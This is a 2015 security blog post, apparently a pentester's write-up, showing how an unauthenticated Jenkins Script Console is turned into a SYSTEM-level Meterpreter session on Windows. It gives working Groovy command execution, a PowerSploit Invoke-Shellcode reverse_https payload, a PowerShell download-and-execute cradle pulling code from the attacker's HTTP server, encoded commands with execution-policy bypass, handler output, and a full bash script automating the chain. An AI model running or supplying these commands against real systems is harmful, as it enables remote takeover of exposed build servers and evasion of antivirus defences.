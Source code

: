 ```yaml
---
categories:
- powershell
- meterpreter
- jenkins
- command execution
comments: true
date: 2015-05-27T20:40:40Z
title: jenkins to meterpreter - toying with powersploit
url: /2015/05/27/jenkins-to-meterpreter-toying-with-powersploit/
---
```


{% img right https://i.imgur.com/DNRQ8Nv.png %}

Recently I came across a few [Jenkins](https://jenkins-ci.org/) continuous integration servers. A relatively old version I might add but that fact was not important. What was important though was the fact that it was not configured to be *'secure'*. Right out of the box Jenkins does not require any authentication to make use of it. In fact, it seems like its almost plug and play.
<!--more-->

## groooooooovy
At first glance I was not too sure about what opportunities I was presented with when finding this. Poking around through the web interface eventually got me to the *Script Console* that Jenkins provides:

{% img https://i.imgur.com/5X43NOP.png %}

This looked promising. *'Type in an arbitrary Groovy script and execute it on the server.'* I had zero idea what Groovy Script was so to the le-Googles it was. Some research revealed that it is actually possible to execute commands using it. In fact, the syntax was quite expressive as explained in the [documentation](http://www.groovy-lang.org/groovy-dev-kit.html#process-management).

```text
def process = "ls -l".execute()
println "Found text ${process.text}"
```

The documentation goes into enough detail explaining the different options you have to execute commands, but the above snippet was enough to get going. To help with testing, I setup a local instance of the latest Jenkins (v1.615) and ran the Groovy Script. Remember, I was able to do this without any authentication requirement!

{% img https://i.imgur.com/UY83gvp.png %}

Nice and easy command execution! :D

## interactive shell, power shell
Getting an interactive shell on linux based hosts was as simple as picking your favorite flavor of [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and moving on from there. On Windows based environments though, the builtin `cmd.exe` definitely has its limitations. For this reason, reaching out for a meterpreter shell is almost a knee-jerk reaction.

The one Jenkins machine that I had found was running on Windows as `nt authority\system`, which of course was *great* news! I figured though that in order to get a meterpreter shell, I'd have to approach this in some conventional way. Either obtaining credentials somehow and launching it with say the metasploit SMB PSExec, or uploading an .exe somehow and executing that. Some investigations showed though that the AV on the box was killing the meterpreter.exe on the box so that option was out as well. So, next on the list? I could just make use of `Invoke-Shellcode.ps1` from [PowerSploit](https://github.com/mattifestation/PowerSploit) to download and execute one using one command.

Admittedly, I have never actually done this so a little Google-fu and research was needed to get it working right, but eventually this payed off.

In essence, getting the meterpreter shell up required 2 things (apart from the command execution). A `payload` which includes the `Invoke-Shellcode.ps1` powershell script together with the meterpreter connection details, and an encoded powershell command to be executed using the command execution we have. Together these will download the hosted payload and prepare the meterpreter. If this sounds a little confusing, don't worry it should be more clear after we have gone through it.

## preparing the payload
As already mentioned, I was going to use `Invoke-Shellcode.ps1` from [PowerSploit](https://github.com/mattifestation/PowerSploit). This will go into the payload that needs to be downloaded to bring the meterpreter up. When talking about *payload* here, all it really is is a file that will be made available via HTTP for the powershell script to download.

The payload will consist of 2 parts. First, defining `function Invoke-Shellcode {}`, and then invoking the function for a `windows/meterpreter/reverse_https` shell. Kali Linux has powersploit available in `/usr/share` so all I really did was cat it to my `payload` file:

```bash
$ cat /usr/share/powersploit/CodeExecution/Invoke-Shellcode.ps1 > payload
```

After that, I added the following line to the `payload` file which will invoke the introduced function and connect the meterpreter. My listener was on 192.168.252.1 on port 443:

```bash
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.252.1 -Lport 443 -Force
```

This file was finally served via HTTP using the python SimpleHTTPServer with `python -m SimpleHTTPServer` which meant that it would be available at http://192.168.252.1:8000/payload.

## preparing the command
Next, we need to prepare the actual command to run. We will make use of the powershell [Invoke-Expression](https://technet.microsoft.com/en-us/library/hh849893.aspx) command and give it a [Net.WebClient.DownloadString](https://msdn.microsoft.com/en-us/library/ms144200(v=vs.110.aspx) object to download the payload we previously prepared and execute it.

```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')
```

That whole command needs to be [encoded](http://blogs.msdn.com/b/timid/archive/2014/03/26/powershell-encodedcommand-and-round-trips.aspx) so that, using the command injection, we can run powershell and not worry about escaping and things like that. I found some snippets online to help with this.

```bash
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
```

The above will output a base64 encoded string that should be passed to the Powershell `-Enc` flag for execution. The last hurdle to overcome was a potential execution policy. The tl;dr of this is that it can be bypassed by simply passing `-Exec ByPass` to the powershell executable. So, in summary, the command will be as follows:

```powershell
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4 [snip] BjBkACcAKQAKAA==
```

## pwn
So, I now had the `payload` file available for download via HTTP, and the command I needed to run. The last thing I had to do was setup a reverse_https listener in metasploit and run the command!

{% img https://i.imgur.com/xBh1Uz9.png %}

From the python web server we can see the request come in for the payload:

```text
192.168.252.100 - - [28/May/2015 12:37:15] "GET /payload HTTP/1.1" 200 -
```

And pop!

```bash
msf exploit(handler) > exploit

[*] Started HTTPS reverse handler on https://0.0.0.0:443/
[*] Starting the payload handler...
[*] 192.168.252.100:54023 Request received for /INITM...
[*] 192.168.252.100:54023 Staging connection for target /INITM received...
[*] Meterpreter session 1 opened (192.168.252.1:443 -> 192.168.252.100:54023) at 2015-05-28 12:37:17 +0200

meterpreter >
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## automation
While testing this, I slapped together a small script that will prepare the command to run and start the SimpleHTTPServer:

```bash
#!/bin/bash

# meterpreter ip & port
lhost=192.168.252.1
lport=443

echo " * Writing Payload"
cat /usr/share/powersploit/CodeExecution/Invoke-Shellcode.ps1 > payload
echo "Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost $lhost -Lport $lport -Force" >> payload

echo " * Prepping Command"
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://$lhost:8000/payload')"
echo $scriptblock

echo
echo " * Encoding command"
encode="`echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0`"
echo $encode

command="cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc $encode"
echo
echo " * Final command"
echo $command

echo
echo " * Starting HTTP Server to serve payload"
python -m SimpleHTTPServer
```